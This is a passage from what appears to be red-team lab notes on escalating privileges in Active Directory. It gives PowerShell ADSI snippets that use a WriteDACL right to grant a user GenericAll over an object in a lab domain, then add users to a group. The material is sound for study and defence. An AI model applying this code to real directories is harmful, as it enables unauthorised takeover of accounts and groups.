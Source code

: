 Which you can of course do through powershell:

```csharp
([ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local").PSBase.get_ObjectSecurity().GetOwner([System.Security.Principal.NTAccount]).Value
```

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-29-27.png>)

And you have a `WriteDACL` on that AD object:

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-07-16.png>)

...you can give yourself [`GenericAll`](abusing-active-directory-acls-aces.md#genericall-on-group) privileges with a sprinkle of ADSI sorcery:

```csharp
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

Which means you now fully control the AD object:

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-02-49.png>)

This effectively means that you can now add new users to the group.

Interesting to note that I could not abuse these privileges by using Active Directory module and `Set-Acl` / `Get-Acl` cmdlets:

```csharp
$path = "AD:\CN=test,CN=Users,DC=offense,DC=local"
$acl = Get-Acl -Path $path
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule (New-Object System.Security.Principal.NTAccount "spotless"),"GenericAll","Allow"
$acl.AddAccessRule($ace)
Set-Acl -Path $path -AclObject $acl
```

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-09-08.png>)

## References

{% embed url="https://wald0.com/?p=112" %}

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2" %}

{% embed url="https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/" %}
